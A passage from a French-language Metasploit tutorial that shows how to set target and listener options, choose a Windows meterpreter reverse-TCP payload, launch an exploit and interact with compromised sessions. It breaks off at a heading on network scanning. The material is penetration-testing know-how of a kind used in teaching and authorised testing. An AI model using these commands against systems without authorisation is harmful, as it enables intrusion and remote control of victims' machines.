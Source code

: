 *   **Commande** :

    ```bash
    set <option> <valeur>
    ```
*   **Exemple** :

    ```bash
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    ```
* **Explication** :
  * Configure les options nécessaires pour l'exploit, comme l'adresse IP cible, le payload, et l'adresse de votre machine.

***

#### 5. Lancer un Exploit

*   **Commande** :

    ```bash
    exploit
    ```
* **Explication** :
  * Lance l'exploit configuré pour pénétrer le système cible.

***

#### 6. Gérer les Sessions

*   **Afficher les sessions actives** :

    ```bash
    sessions
    ```
*   **Interagir avec une session** :

    ```bash
    sessions -i <id_de_session>
    ```
* **Explication** :
  * Permet de contrôler un système compromis à travers une session ouverte.

***

###

### 🔍  Étape 3 : Modules Auxiliaires et Payloads

***

#### 1. Scanner un Réseau pour Identifier des Vulnérabilités
